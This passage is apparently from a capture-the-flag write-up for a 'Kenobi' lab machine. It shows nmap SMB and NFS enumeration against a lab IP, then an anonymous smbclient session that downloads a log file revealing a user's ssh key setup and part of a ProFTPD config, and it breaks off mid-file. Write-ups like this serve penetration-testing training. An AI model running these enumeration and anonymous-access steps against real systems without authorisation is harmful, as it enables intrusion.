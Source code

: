 	|     Users: 0
	|     Max Users: <unlimited>
	|     Path: C:\var\lib\samba\printers
	|     Anonymous access: <none>
	|_    Current user access: <none>


nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.76.140
	PORT    STATE SERVICE
	111/tcp open  rpcbind
	| nfs-showmount: 
	|_  /var *
# Exploit
smbclient //10.10.76.140/anonymous
	smb: \> ls
		  .                                   D        0  Wed Sep  4 10:49:09 2019
		  ..                                  D        0  Wed Sep  4 10:56:07 2019
		  log.txt                             N    12237  Wed Sep  4 10:49:09 2019
		  9204224 blocks of size 1024. 6876720 blocks available
	smb: \> get log.txt local.txt
		getting file \log.txt of size 12237 as local.txt (26.4 KiloBytes/sec) (average 26.4 KiloBytes/sec)
	exit
	cat local.txt
		Generating public/private rsa key pair.
		Generating public/private rsa key pair.
		Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
		Created directory '/home/kenobi/.ssh'.
		Enter passphrase (empty for no passphrase): 
		Enter same passphrase again: 
		Your identification has been saved in /home/kenobi/.ssh/id_rsa.
		Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
		The key fingerprint is:
		SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
		The key's randomart image is:
		+---[RSA 2048]----+
		|                 |
		|           ..    |
		|        . o. .   |
		|       ..=o +.   |
		|      . So.o++o. |
		|  o ...+oo.Bo*o  |
		| o o ..o.o+.@oo  |
		|  . . . E .O+= . |
		|     . .   oBo.  |
		+----[SHA256]-----+
		# This is a basic ProFTPD configuration file (rename it to 
		# 'proftpd.conf' for actual use.  It establishes a single server